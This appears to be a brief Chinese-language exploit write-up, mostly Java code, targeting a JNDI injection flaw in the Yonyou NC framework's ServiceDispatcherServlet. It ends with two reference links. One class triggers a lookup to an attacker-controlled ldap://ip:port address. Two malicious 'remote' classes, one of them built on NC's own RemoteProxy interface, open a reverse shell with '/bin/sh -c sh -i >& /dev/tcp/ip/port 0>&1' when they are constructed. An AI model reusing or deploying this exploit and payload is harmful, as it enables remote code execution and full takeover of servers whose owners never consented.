

> explpit.java

    import nc.bs.framework.common.NCLocator;

    import java.util.Properties;

    public class poc {

        public static void attack(String url, String jndipath) {
            Properties env = new Properties();
            if (!url.startsWith("http")) {
                url = "http://" + url;
            }
            env.put("SERVICEDISPATCH_URL", url + "/ServiceDispatcherServlet");
            NCLocator locator = NCLocator.getInstance(env);
            locator.lookup(jndipath);
        }

        public static void main(String[] args) {
            attack("http://target", "ldap://ip:port/classname");
        }
    }

> remote.java

    import javax.naming.Context;
    import javax.naming.Name;
    import javax.naming.spi.ObjectFactory;
    import java.io.Serializable;
    import java.util.Hashtable;

    public class remote implements ObjectFactory, Serializable {

        public remote() {
            try{
                java.lang.Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","sh -i >& /dev/tcp/ip/port 0>&1"});
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        @Override
        public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
            return null;
        }
    }

> 当然也可以选择利用 nc 自带的类进行远程部署利用

    import nc.bs.framework.common.ComponentMetaVO;
    import nc.bs.framework.rmi.RemoteAddressSelector;
    import nc.bs.framework.rmi.RemoteProxy;

    public class remote implements RemoteProxy {

        public remote() {
            try{
                java.lang.Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","sh -i >& /dev/tcp/ip/port 0>&1"});
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        @Override
        public Object getAttribute(String s) {
            return null;
        }

        @Override
        public void setAttribute(String s, Object o) {

        }

        @Override
        public ComponentMetaVO getComponentMetaVO() {
            return null;
        }

        @Override
        public int getRetryMax() {
            return 0;
        }

        @Override
        public void setRetryMax(int i) {

        }

        @Override
        public long getRetryInterval() {
            return 0;
        }

        @Override
        public void setRetryInterval(long l) {

        }

        @Override
        public void setRemoteAddressSelector(RemoteAddressSelector remoteAddressSelector) {

        }

        @Override
        public RemoteAddressSelector getRemoteAddressSelector() {
            return null;
        }
    }

参考链接
--------

> https://xz.aliyun.com/t/8242
>
> https://blog.sari3l.com/posts/608d18f0/
